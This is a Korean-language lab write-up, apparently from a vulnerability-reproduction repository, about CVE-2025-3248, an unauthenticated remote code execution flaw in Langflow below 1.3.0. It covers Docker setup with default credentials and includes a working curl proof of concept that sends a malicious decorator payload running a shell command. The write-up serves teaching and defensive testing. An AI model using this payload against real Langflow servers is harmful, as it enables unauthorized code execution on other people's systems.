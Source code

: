 # CVE-2025-3248            
---     

### 1. 요약        
* **Langflow** 는 에이전트 기반 AI 워크플로우를 구축할 수 있는 오픈소스 도구로, Python 기반 웹 인터페이스를 제공한다.       
* 1.3.0 버전 미만의 Langflow에는 인증 없이 발생하는 치명적인 원격 코드 실행 취약점(CVE-2025-3248)이 존재한다.         
* `/api/v1/validate/code` 엔드포인트에서 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는 과정에서 발생한다.         
* Python의 데코레이터나 기본 인자 표현식은 함수 정의 시점에 함께 실행되기 때문에, 공격자는 이 점을 이용해 악의적인 데코레이터나 기본 인자를 포함한 함수 정의를 전송함으로써 서버 사용자 권한으로 임의 코드를 실행할 수 있다.         
---               

### 2. 환경 구성 및 실행                
* `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행한다.               
* 서버가 실행되면 `http://localhost:7860` 브라우저 접속할 수 있다.                
* 기본 계정 정보 **administrator:vulhub** 를 사용해 로그인할 수 있다.                    
---                          

### 3. 취약점 재현 (PoC)               
* 인증없이 `/api/v1/validate/code` 엔드포인트에 악성 Python 코드를 전송한다.           
```bash
curl -X POST http://localhost:7860/api/v1/validate/code \       
  -H "Content-Type: application/json" \        
  -d '{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}'      
```          
---                              

### 4. 결과             
---           
* Langflow 관리자 페이지 접속 화면
![Langflow Admin Page Access](./result1.png)

* PoC curl 결과 화면
![PoC Output](./result2.png)

### 5. 정리                                   
Langflow 1.3.0 미만 버전에서는 RCE 취약점이 존재한다. 이 취약점(CVE-2025-3248)은 인증 없이 서버에 Python 코드를 제출하고 서버가 이를 exec()로 실행하는 문제를 의미한다. 현재 PoC에서는 서버가 위험 모듈(subprocess) import를 막아 완전한 명령 실행은 실패했지만, 인증 없이 코드 실행이 가능한 상태를 확인할 수 있다.            
---     

      
(Pull-Request 주소 첨부) https://github.com/gunh0/kr-vulhub/pull/249

